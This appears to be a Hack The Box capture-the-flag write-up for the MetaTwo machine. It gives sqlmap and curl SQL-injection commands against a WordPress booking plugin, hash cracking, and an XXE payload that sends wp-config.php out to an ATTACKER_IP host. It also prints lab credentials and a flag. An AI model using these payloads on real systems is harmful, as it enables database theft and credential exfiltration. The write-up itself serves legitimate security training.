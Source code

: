 # MetaTwo

<Image src="/images/writeups/htb/metatwo/banner.png" />

### nmap scan

By scanning with nmap we can find three open ports. In particular, on port 80 there is a website available based on Wordpress at the address `metapress.htb`

<Image src="/images/writeups/htb/metatwo/nmap.png" />

### Analyzing the website

By looking to the source code of the index it is possible to see that the website uses Wordpress.

<Image src="/images/writeups/htb/metatwo/source.png" />

We can also notice that a plugin called bookingpress-appointment-booking is used. with version 1.0.10. It is enough to search on Google for vulnerabilities to find a SQLi.

[https://wordpress.org/plugins/bookingpress-appointment-booking/](https://wordpress.org/plugins/bookingpress-appointment-booking/)

[https://wpscan.com/vulnerability/388cd42d-b61a-42a4-8604-99b812db2357](https://wpscan.com/vulnerability/388cd42d-b61a-42a4-8604-99b812db2357)

The SQLi is:

```bash
curl -i 'http://metapress.htb/wp-admin/admin-ajax.php' --data 'action=bookingpress_front_get_category_services&_wpnonce=3187120274&category_id=33&total_service=-7502) UNION ALL SELECT @@version,@@version_comment,@@version_compile_os,1,2,3,4,5,6-- -'
```

Enumerate dbs

```bash
sqlmap -u 'http://metapress.htb/wp-admin/admin-ajax.php' --data 'action=bookingpress_front_get_category_services&_wpnonce=3187120274&category_id=33&total_service=1' -p total_service --batch --dbs
```

Enumerate users

```bash
sqlmap -u 'http://metapress.htb/wp-admin/admin-ajax.php' --data 'action=bookingpress_front_get_category_services&_wpnonce=3187120274&category_id=33&total_service=1' -p total_service --batch -D blog -T wp_users --dump
```

Get password of admin and manager users

```bash
sqlmap -u 'http://metapress.htb/wp-admin/admin-ajax.php' --data 'action=bookingpress_front_get_category_services&_wpnonce=3187120274&category_id=33&total_service=1' -p total_service --batch --sql-query "SELECT user_pass FROM wp_users WHERE ID=1"
```

<Image src="/images/writeups/htb/metatwo/sqlmap.png" />

Final hashes

```
$P$BGrGrgf2wToBS79i07Rk9sN4Fzk.TV. admin
$P$B4aNM28N0E.tMy/JIcnVMZbGcU16Q70 manager
```

Using hashcat and the rockyou list is possible to find the password for manager: `partylikearockstar`.

<Image src="/images/writeups/htb/metatwo/manager.png" />

Once inside we can try to exploit the permissions of the manager user.
We can use tool like Wappalyzer to find the version of Wordpress used by the website (5.6.2).

There is a vulnerability that exploits the upload of a new media element to the website. The vulnerability is described here:

[https://wpscan.com/vulnerability/cbbe6c17-b24e-4be4-8937-c78472a138b5](https://wpscan.com/vulnerability/cbbe6c17-b24e-4be4-8937-c78472a138b5)

One file will be used for upload:

```xml title="payload.wav"
RIFFXXXXWAVEBBBBiXML<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "http://ATTACKER_IP:ATTACKER_PORT/xxe.dtd">
%sp;
%param1;
]>
<r>&exfil;</r>
```

Another will be server on the attacker machine:

```xml title="xxe.dtd"
<!ENTITY % data SYSTEM "php://filter/zlib.deflate/convert.base64-encode/resource=../wp-config.php">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://ATTACKER_IP:ATTACKER_PORT/?%data;'>">
```

Change ATTACKER_IP and ATTACKER_PORT with your values.

Remember to serve the file on your local pc:

```bash
python3 -m http.server PORT
```

In the `wp-config.php` we can find the credentials for the ftp server:

```php title="wp-config.php"
...
define( 'FTP_USER', 'metapress.htb' );
define( 'FTP_PASS', '9NYS_ii@FyL_p5M2NvJ' );
...
```

<Image src="/images/writeups/htb/metatwo/ftp.png" />

In addition to the blog files, there is also a folder called `mailer` where we can find a file `send_email.php`.
Inside the file we can find the credentials for the mail server:

```php title="send_email.php"
...
$mail->Username = "jnelson@metapress.htb";
$mail->Password = "Cb4_JmWM8zUZWMu@Ys";
...
```

We can try to use them for ssh:

In this way we find the user flag:

```
4df68ef9947c09d45b2cd642455d4e1a
```
